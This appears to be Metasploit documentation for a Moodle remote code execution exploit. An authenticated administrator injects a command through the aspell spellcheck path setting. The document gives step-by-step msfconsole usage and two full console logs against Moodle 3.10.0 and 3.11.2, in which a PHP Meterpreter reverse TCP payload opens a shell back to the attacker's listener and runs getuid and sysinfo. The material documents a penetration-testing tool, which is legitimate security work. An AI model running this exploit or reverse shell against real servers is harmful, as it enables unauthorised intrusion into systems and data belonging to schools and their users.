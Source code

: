 ## Vulnerable Application

Moodle allows an authenticated administrator to define spellcheck settings via the web interface.
An administrator can update the aspell path to include a command injection. This is extremely
similar to CVE-2013-3630, just using a different variable.

This module was tested against Moodle version 3.11.2, 3.10.0, and 3.8.0. Based on the
Talos advisory: `2021-04-21 - Vendor updated documentation to suggest best practices after installation`,
it is unclear if Moodle will patch this.  Therefore it is unclear what the upper bounds
is on exploitation.

### Install

Moodle provides a step by step guide to install their software
[here](https://docs.moodle.org/311/en/Step-by-step_Installation_Guide_for_Ubuntu)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploits/multi/http/moodle_spelling_path_rce`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### Password

Password of an administrator.

### Username

Username of an administrator. Defaults to `admin`

## Scenarios

### Moodle 3.10.0 on Ubuntu 20.04

```
[*] Processing moodle_spellcheck.rb for ERB directives.
resource (moodle_spellcheck.rb)> use exploits/multi/http/moodle_spelling_path_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (moodle_spellcheck.rb)> set username admin
username => admin
resource (moodle_spellcheck.rb)> set password Adminadmin1!
password => Adminadmin1!
resource (moodle_spellcheck.rb)> set targeturi /moodle-3.10.0/
targeturi => /moodle-3.10.0/
resource (moodle_spellcheck.rb)> set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
resource (moodle_spellcheck.rb)> set ReverseAllowProxy true
ReverseAllowProxy => true
resource (moodle_spellcheck.rb)> set lhost eth0
lhost => eth0
resource (moodle_spellcheck.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Moodle version 3.10 detected
[*] Authenticating as user: admin
[*] Updating aspell path
[*] Changing spell engine to PSpellShell
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56124) at 2021-08-29 10:03:37 -0400
[*] Sleeping 5 seconds before cleanup
[*] Authenticating as user: admin
[*] Removing RCE from settings

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
```

### Moodle 3.11.2 on Ubuntu 20.04

```
resource (moodle_spellcheck.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (moodle_spellcheck.rb)> set username admin
username => admin
resource (moodle_spellcheck.rb)> set password Adminadmin1!
password => Adminadmin1!
resource (moodle_spellcheck.rb)> set targeturi /moodle-3.11.2/
targeturi => /moodle-3.11.2/
resource (moodle_spellcheck.rb)> set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (moodle_spellcheck.rb)> set lhost eth0
lhost => eth0
resource (moodle_spellcheck.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable Moodle version 3.11.2 detected
[*] Authenticating as user: admin
[*] Updating aspell path
[*] Changing spell engine to PSpellShell
[*] Triggering payload
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:56130) at 2021-08-29 10:22:03 -0400
[*] Sleeping 5 seconds before cleanup
[*] Authenticating as user: admin
[*] Removing RCE from settings

meterpreter > sysinfo
Computer    : moodle
OS          : Linux moodle 5.4.0-81-generic #91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data (33)
```
